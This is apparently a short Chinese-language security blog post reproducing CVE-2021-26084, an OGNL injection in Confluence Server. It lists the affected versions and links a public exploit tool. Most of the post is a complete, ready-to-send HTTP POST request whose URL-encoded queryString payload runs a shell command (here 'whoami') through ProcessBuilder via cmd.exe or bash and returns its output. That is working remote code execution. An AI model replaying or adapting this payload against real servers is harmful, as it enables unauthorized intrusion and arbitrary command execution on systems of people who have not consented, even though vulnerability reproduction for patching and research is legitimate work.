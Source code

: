 
# [CVE-2021-26084(Confluence) 漏洞复现](https://ad-calcium.github.io/2021/09/cve-2021-26084confluence-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)

 [↓↓↓](https://ad-calcium.github.io/2021/09/cve-2021-26084confluence-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)  
  
2021-09-02  
  
[↑↑↑](https://ad-calcium.github.io/2021/09/cve-2021-26084confluence-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)  [漏洞复现](https://ad-calcium.github.io/categories/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)   [漏洞复现](https://ad-calcium.github.io/tags/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/) [Confluence](https://ad-calcium.github.io/tags/confluence/) 字数统计: 193字 阅读时长: 1分

## 0x01 漏洞介绍

Confluence Server Webwork OGNL 注入漏洞（CVE-2021-26084），远程攻击者在经过身份验证或在特定环境下未经身份验证的情况下，可构造OGNL表达式进行注入，实现在 Confluence Server或Data Center上执行任意代码。

## 0x02 影响范围

**受影响版本**

-   Confluence < 6.13.23
-   6.14.0 ≤ Confluence < 7.4.11
-   7.5.0 ≤ Confluence < 7.11.6
-   7.12.0 ≤ Confluence < 7.12.5
-   Confluence < 7.13.0

## 0x03 利用工具

```plain
https://github.com/h3v0x/CVE-2021-26084_Confluence
```

## 0x03 漏洞复现

漏洞payload

```plain
POST /pages/createpage-entervariables.action?SpaceKey=x HTTP/1.1
Host: xxxxxxx
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=4FBEAB3342C1B2F544CB4AA67A7ADA6F
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 1072

queryString=aaaaaaaa%5Cu0027%2B%7BClass.forName%28%5Cu0027javax.script.ScriptEngineManager%5Cu0027%29.newInstance%28%29.getEngineByName%28%5Cu0027JavaScript%5Cu0027%29.%5Cu0065val%28%5Cu0027var+isWin+%3D+java.lang.System.getProperty%28%5Cu0022os.name%5Cu0022%29.toLowerCase%28%29.contains%28%5Cu0022win%5Cu0022%29%3B+var+cmd+%3D+new+java.lang.String%28%5Cu0022whoami%5Cu0022%29%3Bvar+p+%3D+new+java.lang.ProcessBuilder%28%29%3B+if%28isWin%29%7Bp.command%28%5Cu0022cmd.exe%5Cu0022%2C+%5Cu0022%2Fc%5Cu0022%2C+cmd%29%3B+%7D+else%7Bp.command%28%5Cu0022bash%5Cu0022%2C+%5Cu0022-c%5Cu0022%2C+cmd%29%3B+%7Dp.redirectErrorStream%28true%29%3B+var+process%3D+p.start%28%29%3B+var+inputStreamReader+%3D+new+java.io.InputStreamReader%28process.getInputStream%28%29%29%3B+var+bufferedReader+%3D+new+java.io.BufferedReader%28inputStreamReader%29%3B+var+line+%3D+%5Cu0022%5Cu0022%3B+var+output+%3D+%5Cu0022%5Cu0022%3B+while%28%28line+%3D+bufferedReader.readLine%28%29%29+%21%3D+null%29%7Boutput+%3D+output+%2B+line+%2B+java.lang.Character.toString%2810%29%3B+%7D%5Cu0027%29%7D%2B%5Cu0027
```

![image-20210902101628474](assets/1699241215-3d5b9ba380647fdb1366387f85a597ee.png)

> -   **本文链接:** [https://ad-calcium.github.io/2021/09/cve-2021-26084confluence-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/](https://ad-calcium.github.io/2021/09/cve-2021-26084confluence-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/ "CVE-2021-26084(Confluence) 漏洞复现")
> -   **License:** [CC BY 4.0 CN](http://creativecommons.org/licenses/by/4.0/deed.zh)

[↓↓↓](https://github.com/ad-calcium)  
  
![](assets/1699241215-57d10927a6533b3fdb14adfa7ddc7aae.png)  
  
[↑↑↑](https://github.com/ad-calcium)

### [AD钙奶](https://github.com/ad-calcium)

Good Good Study, Day Day Up~

-     [下一篇](https://ad-calcium.github.io/2021/09/smb%E5%A4%96%E5%B8%A6%E6%B3%A8%E5%85%A5/ "SMB外带注入")
-   [上一篇](https://ad-calcium.github.io/2021/09/windows%E6%8A%93%E5%8F%96hash%E6%80%BB%E7%BB%93/ "windows抓取hash总结")  
-   [↓↓↓](#collapseToc "文章目录")  
      
    \[ 文章目录 \]  
      
    [↑↑↑](#collapseToc "文章目录")
    

[](http://service.weibo.com/share/share.php?url=https%3A%2F%2Fad-calcium.github.io%2F2021%2F09%2Fcve-2021-26084confluence-%25E6%25BC%258F%25E6%25B4%259E%25E5%25A4%258D%25E7%258E%25B0%2F&title=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%20-%20AD%E9%92%99%E5%A5%B6%E7%9A%84%E5%8D%9A%E5%AE%A2&pic=https%3A%2F%2Fad-calcium.github.io%2Favatar.png&appkey=)[](http://connect.qq.com/widget/shareqq/index.html?url=https%3A%2F%2Fad-calcium.github.io%2F2021%2F09%2Fcve-2021-26084confluence-%25E6%25BC%258F%25E6%25B4%259E%25E5%25A4%258D%25E7%258E%25B0%2F&title=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%20-%20AD%E9%92%99%E5%A5%B6%E7%9A%84%E5%8D%9A%E5%AE%A2&source=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%20-%20AD%E9%92%99%E5%A5%B6%E7%9A%84%E5%8D%9A%E5%AE%A2&desc=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0&pics=https%3A%2F%2Fad-calcium.github.io%2Favatar.png)[](javascript:)[](https://www.facebook.com/sharer/sharer.php?u=https%3A%2F%2Fad-calcium.github.io%2F2021%2F09%2Fcve-2021-26084confluence-%25E6%25BC%258F%25E6%25B4%259E%25E5%25A4%258D%25E7%258E%25B0%2F&title=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%20-%20AD%E9%92%99%E5%A5%B6%E7%9A%84%E5%8D%9A%E5%AE%A2&description=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0&caption={{SUBHEAD}}&link=https%3A%2F%2Fad-calcium.github.io%2F2021%2F09%2Fcve-2021-26084confluence-%25E6%25BC%258F%25E6%25B4%259E%25E5%25A4%258D%25E7%258E%25B0%2F&picture=https%3A%2F%2Fad-calcium.github.io%2Favatar.png)[](https://twitter.com/intent/tweet?text=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%20-%20AD%E9%92%99%E5%A5%B6%E7%9A%84%E5%8D%9A%E5%AE%A2&url=https%3A%2F%2Fad-calcium.github.io%2F2021%2F09%2Fcve-2021-26084confluence-%25E6%25BC%258F%25E6%25B4%259E%25E5%25A4%258D%25E7%258E%25B0%2F&via=https%3A%2F%2Fad-calcium.github.io)
